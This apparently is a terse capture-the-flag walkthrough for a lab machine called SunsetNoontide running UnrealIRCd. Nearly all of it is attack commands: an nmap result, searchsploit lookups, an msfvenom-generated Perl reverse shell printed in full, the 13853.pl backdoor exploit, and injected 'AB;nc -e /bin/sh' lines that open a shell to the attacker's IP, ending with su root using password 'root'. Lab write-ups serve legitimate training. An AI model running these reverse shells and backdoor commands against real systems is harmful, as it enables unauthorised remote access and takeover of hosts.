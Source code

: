 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# SunsetNoontide
# 4/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
Service Info: Host: irc.foonet.com



searchsploit UnrealIRCd 

searchsploit -m 13853.pl

└─$ msfvenom -p cmd/unix/reverse_perl LHOST=192.168.49.54 LPORT=4000 -f raw

perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.49.54:4000");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'

perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Sock>
remeber that, after -e you have to put “\” and in the end of line also, before single quotes (‘ ’).

perl 13853.pl <VICTIM’S_IP> 6667 1

nc -lvp 1234

sudo tcpdump -i tun0 icmp
AB;ping -c 3 192.168.49.54
AB;nc -e /bin/sh 192.168.49.54 1234
su root
root
